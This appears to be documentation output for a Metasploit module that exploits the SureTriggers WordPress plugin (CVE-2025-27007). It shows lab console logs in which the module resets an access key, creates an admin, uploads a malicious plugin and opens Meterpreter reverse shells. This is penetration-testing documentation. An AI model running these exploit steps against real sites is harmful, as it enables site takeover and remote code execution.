 ```plaintext
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Expected Results (CVE-2025-27007)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-27007
action => CVE-2025-27007
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers version 1.0.82 (vulnerable to CVE-2025-27007)
[*] CVE-2025-27007: reset access key & create admin
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: pAEaR3:98TCYzILsdXt
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_14slj/ajax_drh8b.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_drh8b.php
[+] Deleted wp_14slj.php
[+] Deleted ../wp_14slj
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.27.0.3:42464) at 2025-05-14 19:05:06 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers version 1.0.82 (vulnerable to CVE-2025-27007)
[*] CVE-2025-27007: reset access key & create admin
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: pAEaR3:98TCYzILsdXt
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_c7ziw/ajax_a9arm.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_a9arm.php
[+] Deleted wp_c7ziw.php
[+] Deleted ../wp_c7ziw
```